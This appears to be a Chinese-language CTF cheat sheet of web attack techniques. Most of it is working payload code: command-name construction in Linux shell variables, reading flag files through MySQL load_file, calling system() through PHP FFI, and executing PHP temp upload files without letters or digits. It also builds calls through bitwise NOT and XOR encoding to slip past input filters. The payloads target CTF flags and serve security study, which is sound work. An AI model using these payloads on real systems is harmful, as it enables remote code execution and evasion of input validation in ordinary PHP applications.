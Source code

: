 ### linux变量拼接构造
```
构造 ls
> a=l;b=s
> $a$b-->
构造 flag 同理
```
### 6.glob协议(用于查找匹配特定文件路径模式的文件)，uaf突破安全目录
https://xz.aliyun.com/t/10070?time__1311=Cqjx2DRQDQuDl6zIx4iwxQqYvQD5G8lCIeD#toc-6

### 7.mysql读
```
try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root',
'root');foreach($dbh->query('select load_file("/flag36.txt")') as $row)
{echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e-
>getMessage();exit(0);}exit(0);
```
### 8.FFI扩展(php版本>=7.4)
```
$ffi = FFI::cdef("int system(const char *command);");//创建一个system对象
$a='/readflag > 1.txt';//没有回显的
$ffi->system($a);//通过$ffi去调用system函数
```
### 9.bash无字母绕过
缺点：不能有空格
如：`$'十六进制或八进制'`
### 变量覆盖+命令执行
ctfshow133
### 10.无字母数字绕过
* 使用php临时文件
  前置知识：给php上传文件,上传的文件会保存在/tmp/php??????六位随机数 脚本执行完后删除
  通过linux . 可以不需要执行权限就可以执行
  linux 可以使用[@-[]筛选出A-Z的字母
  payload 构造：\`. /???/????????[@-[]\`
  参考文章：https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html

* 取反绕过
  在php7版本可用
  ```
  <?php
  $a="phpinfo";
  $a=urlencode(~$a);
  echo $a;
  //此方法构造
  //构造(~%8F%97%8F%96%91%99%90)()-->phpinfo;
  ```
* 异或绕过
使用异或构造payload
 如：构造`('phpinfo')();`
```php
// p=>
//1111 1010 %fa
//1000 1010 %8a 
//0111 0011 %73-->p
... ...依次类推
(%fa%fa%fa%fa%fa%fa%fa%fa%fa^%8a%92%8a%93%94%9c%95)(); --> ('phpinfo')();
```
* 或运算
php里使用() ' | 不可见字符 进行或运算 执行代码 web41
   前提要在echo参数在函数中
https://blog.csdn.net/miuzzx/article/details/108569080
